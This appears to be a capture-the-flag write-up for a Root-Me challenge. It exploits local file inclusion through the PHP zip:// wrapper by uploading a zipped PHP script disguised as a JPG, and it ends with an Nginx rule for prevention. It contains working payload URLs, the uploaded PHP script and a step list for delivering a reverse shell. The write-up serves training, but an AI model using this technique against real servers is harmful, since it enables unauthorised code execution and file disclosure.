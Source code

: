 # Local-File-Inclusion: Wrappers
### 1. Recon

![image](https://user-images.githubusercontent.com/106916011/179256914-37030c33-4e06-4db5-8c48-f33b7af78912.png)

Here, the website provide a Image upload to user, so I will upload a jpeg file for testing.
After processing successfully, The image is embedded into the surface of the website. Use view-source to see how it embedded

![image](https://user-images.githubusercontent.com/106916011/179350737-604a09e6-6848-4e01-a7aa-9b5a19142e97.png)

Now, because I got a hint "Wrappers" and this image upload function then I'm gotta look up a Wrapper relating to a file handler.
The outcome is Wrapper zip:// which is satisfied my condition. The zip wrapper processes uploaded .zip files server side allowing the upload of a zip file using a vulnerable file function exploitation of the zip filter via an LFI to execute. A typical attack example would look like:
1. Create a PHP reverse shell
2. Compress to a .zip file
3. Upload the compressed shell payload to the server
4. Use the zip wrapper to extract the payload using: php?page=zip://path/to/file.zip%23shell
5. The above will extract the zip file to shell, if the server does not append .php rename it to shell.php instead

To confirm if PHP ZIP Wrapper is available on this website, I send a random payload:
```powershell
http://challenge01.root-me.org/web-serveur/ch43/index.php?page=zip://shell.jpg%23payload
```
And server sends back a response 
![image](https://user-images.githubusercontent.com/106916011/179352866-9c40ae61-22fd-43ee-ad5a-44350fcc73fa.png)
not any errors about zip:// is not supported so it is worth trying.

### 2. Exploit
creating a php file to scan every directory.
```powershell
<?php
$path = getcwd();
$items = scandir($path);

echo "<p>Content of $path</p>";
echo '<ul>';
foreach ($items as $item) {
    echo '<li>' . $item . '</li>';
}
echo '</ul>';
?> 
```
I zip it and rename to .JPG (the php:zip:// wrapper does not require the zip file to have any specific extension) then upload to server via image upload function.
appending its source dir to our payload, and there is my payload:
```powershell
http://challenge01.root-me.org/web-serveur/ch43/index.php?page=zip://tmp/upload/jNDpWhjlA.jpg%23a
```

Here, it work very well

![image](https://user-images.githubusercontent.com/106916011/179353937-f587357a-49ee-4e0c-9e76-a72f15039e18.png)

Next, I need to read source of flag-mipkBswUppqwXlq9ZydO.php. Repeat process with reading source php script, I get my challange successful.

![image](https://user-images.githubusercontent.com/106916011/179354098-b4dea985-6db0-4d64-99cd-85ed5736bf46.png)

### 3. Prevention
Disallowing execution of PHP files in the image upload directory. There is one way to do this is modify Nginx.conf to something like this:
```powershell
location ~* /tmp/upload/.*.php$ {
	deny all;
}
```

